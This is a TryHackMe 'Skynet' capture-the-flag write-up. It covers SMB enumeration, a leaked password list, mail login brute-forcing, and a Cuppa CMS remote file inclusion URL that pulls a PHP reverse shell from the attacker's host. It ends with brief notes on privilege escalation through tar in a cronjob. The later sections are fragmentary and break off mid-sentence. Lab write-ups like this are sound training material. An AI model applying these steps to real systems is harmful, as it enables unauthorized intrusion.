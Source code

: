 ```yaml
---
layout: default
title: Skynet
parent: TryHackMe
nav_order: 2
---
```


## [](#header-2)Summary:

1. Find/Enumarate Samba  
2. Bruteforce mail server login 
3. Find hidden web dir 
4. Use Cuppa exploit to drop remote shell for intitial access
5. Privesc using cronjob

## [](#header-2)Recon:


Intial nmap scan shows an Apache server running on port 80, email clients (pop3/imap),and some "potentially" vulnerable samaba shares.
![](pictures/nmap0-skynet.PNG)


Navigating to the apache server on port 80 we see a skynet search engine which doesn't give us much in terms of functionality.

![](pictures/website-skynet.PNG)

After running smbmap on the host we can see there are 4 seperate shares.

![](pictures/smbmap-skynet.PNG)

Running gobuster reveals two interesting finds an admin direcory and a mail server called "squirrelmail".

![](pictures/gobuster0-skynet.PNG)

## [](#header-2)Enumeration:


From here the only smbshare we are able to access at this point is "anonymous" which has "READ ONLY" permissions.
'''bash
smbclient //<targetip>/anonymous 
'''
Once we are in the anonymous share we can see two files/folders of interest.
![](pictures/sambadir-skynet.PNG)

From here we want to retrieve these files to further analyze with the following command.

'''bash
smbget -R smb://<target ip>/anonymous
'''
![](pictures/sambaget-skynet.PNG)


Reading the attention txt file we find out that passwords for users accross the system have been changed, some may call this a "clue".
'''bash
kali@kali:~/Desktop/tryhackme/skynet$ cat attention.txt
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson


We then find that log1.txt contains what seems to be passwords that mightve been apart of the recent change.
kali@kali:~/Desktop/tryhackme/skynet$ cat log1.txt 
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
'''




webmail:
https://www.dailydot.com/debug/facebook-ai-invent-language/


searchsploit cuppa
cuppa:
http://10.10.58.237/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.4.22.131:8000/php-reverse-shell.php



root:

Was able top get the root flag by abusing the tar function into getting the cronjob to spit out the root flag into the /tmp directory

Whenever the backups.sh cronjob runs the /var/www/html folder it then backed up and t
link tar sudo 